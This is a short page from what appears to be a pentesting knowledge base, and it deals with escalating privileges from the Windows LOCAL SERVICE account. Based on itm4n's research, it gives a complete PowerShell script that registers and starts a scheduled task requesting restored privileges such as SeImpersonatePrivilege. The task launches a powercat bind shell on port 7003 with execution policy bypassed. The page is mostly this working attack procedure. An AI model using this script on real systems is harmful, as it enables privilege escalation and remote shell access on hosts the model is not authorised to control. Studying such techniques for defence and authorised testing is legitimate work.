


---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---

# Local/Network Service


Based on the [Give Me Back My Privileges! Please?](https://itm4n.github.io/localservice-privileges/) blog post by itm4n. The below process can be automated using the [FullPowers](https://github.com/itm4n/FullPowers) PoC created by the same author.


The `NT AUTHORITY\LOCAL SERVICE` account is **a built-in Windows service account designed to run system services with minimal privileges**. It has limited access to the local system and presents anonymous credentials on the network, reducing its exposure. Despite these restrictions, if this account is compromised, it can be leveraged for privilege escalation by creating a scheduled task.

<figure><figcaption></figcaption></figure>


```powershell
# Create a list of privileges 
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseQuotaPrivilege", "SeShutdownPrivilege", "SeUndockPrivilege", "SeIncreaseWorkingSetPrivilege", "SeTimeZonePrivilege"

# Create a Principal for the task 
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "LOCALSERVICE" -LogonType ServiceAccount -RequiredPrivilege $Privs

# Create an Action object for the task
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `". C:\TOOLS\powercat.ps1; powercat -l -p 7003 -ep`""

# Register the task
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask2" -Principal $TaskPrincipal

# Start the task
Start-ScheduledTask -TaskName "SomeTask2"
```


<figure><figcaption></figcaption></figure>
